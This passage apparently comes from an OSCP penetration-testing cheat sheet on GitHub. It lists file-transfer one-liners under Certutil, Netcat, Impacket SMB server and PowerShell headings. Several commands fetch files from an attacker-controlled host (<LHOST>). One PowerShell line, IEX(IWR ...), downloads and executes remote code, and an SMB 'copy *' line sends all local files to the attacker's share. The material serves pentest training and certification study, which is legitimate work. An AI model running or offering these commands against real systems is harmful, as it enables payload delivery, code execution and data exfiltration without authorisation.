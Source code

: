 ##### Certutil

```c
certutil -urlcache -split -f "http://<LHOST>/<FILE>" <FILE>
```

##### [](https://github.com/0xsyr0/OSCP#netcat)Netcat

```c
nc -lnvp <LPORT> < <FILE>
nc <RHOST> <RPORT> > <FILE>
```

##### [](https://github.com/0xsyr0/OSCP#impacket)Impacket

```c
sudo impacket-smbserver <SHARE> ./
sudo impacket-smbserver <SHARE> . -smb2support
copy * \\<LHOST>\<SHARE>
```

##### [](https://github.com/0xsyr0/OSCP#powershell)PowerShell

```c
iwr <LHOST>/<FILE> -o <FILE>
IEX(IWR http://<LHOST>/<FILE>) -UseBasicParsing
powershell -command Invoke-WebRequest -Uri http://<LHOST>:<LPORT>/<FILE> -O
```